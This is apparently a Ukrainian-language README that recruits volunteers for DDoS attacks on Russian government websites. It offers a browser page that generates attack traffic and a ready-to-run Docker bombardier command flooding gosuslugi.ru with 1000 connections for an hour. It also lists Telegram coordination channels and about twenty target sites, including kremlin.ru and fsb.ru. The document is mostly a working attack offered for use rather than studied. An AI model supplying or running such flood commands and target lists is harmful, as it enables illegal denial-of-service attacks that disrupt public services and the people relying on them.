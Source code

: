 # Варіант 1
Просто відкрийте і залиште сайт відкритим (**можна і на телефоні**) - [https://stop-russian-desinformation.near.page/](https://stop-russian-desinformation.near.page/)  
За можливості увімкніть VPN
# Варіант 2
1. Встановіть [Docker](https://www.docker.com/products/docker-desktop)
2. Встановіть VPN 
- [ProtonVPN](https://protonvpn.com/download) - трохи повільний, безкоштовний
- [Windscribe](https://windscribe.com/download) - 10 Гб безкоштовно
3. Запустіть в терміналі команду
```
docker run -ti --rm alpine/bombardier -c 1000 -d 3600s -l https://www.gosuslugi.ru
```
(замініть `https://www.gosuslugi.ru` на необхідний сайт)  
**Ви можете відкрити декілька вікон терміналу**


## Канали для координації
- https://t.me/+97Y45he5lOI2ZTky
- https://t.me/ddosRussians
- https://t.me/itguildukraine

## Ресурси для атаки (краще слідкувати за апдейтами в Telegram)
`http://duma.gov.ru/` `http://president-sovet.ru/` `https://sovetnational.ru/` `https://www.gosuslugi.ru/ru/` `https://zakupki.gov.ru/epz/main/public/home.html` `https://gossluzhba.gov.ru/` `http://defence.council.gov.ru/` `http://budget.council.gov.ru/` `http://www.kremlin.ru/` `https://government.ru/` `http://www.scrf.gov.ru/` `http://www.ksrf.ru/ru/Pages/default.aspx` `http://www.vsrf.ru/` `http://premier.gov.ru/events/` `https://www.mchs.gov.ru/` `https://minjust.gov.ru/ru/` `http://www.fsb.ru/` `https://rosguard.gov.ru/` `https://customs.gov.ru/` `https://udprf.ru/` `http://favt.gov.ru/`

